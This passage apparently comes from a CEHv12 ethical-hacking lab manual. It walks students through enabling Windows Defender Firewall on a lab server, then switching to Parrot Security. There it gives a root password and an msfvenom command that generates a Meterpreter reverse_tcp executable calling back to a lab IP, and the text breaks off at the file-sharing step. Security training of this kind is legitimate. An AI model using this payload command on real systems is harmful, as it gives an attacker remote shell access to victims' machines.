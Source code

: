 1. Click **CEHv12 Windows Server 2019** to switch to the **Windows Server 2019** machine and launch **Control Panel** , as shown in the
    screenshot.

### 


2. The **Control Panel** window appears, click **System and Security**. In **System and Security** window select **Windows Defender**
    **Firewall**.

### 3. The Windows Defender Firewall control panel appears; click the Turn Windows Defender Firewall on or off link in the left pane.


4. The **Customize Settings** window appears.
5. Select **Turn on Windows Defender Firewall** under **Private network settings** and **Public network settings**.
6. Click **OK**.

### 


7. Click **CEHv12 Parrot Security** to switch to the **Parrot Security** machine.
8. Click the **MATE Terminal** icon at the top of the **Desktop** window to open a **Terminal** window.

```
Note: If a Question pop-up window appears asking you to update the machine, click No to close the window.
```
### 


9. A **Parrot Terminal** window appears. In the terminal window, type **sudo su** and press **Enter** to run the programs as a root user.
10. In the **[sudo] password for attacker** field, type **toor** as a password and press **Enter**.

```
Note: The password that you type will not be visible.
```
### 


11. In the terminal window, type **msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe >**
    **/home/attacker/Exploit.exe** and press **Enter** , to create the payload.

### 


12. Now, create a directory to share this file with the target machine, provide the permissions, and copy the file from **/home/attacker** to
    the shared location using the below commands:
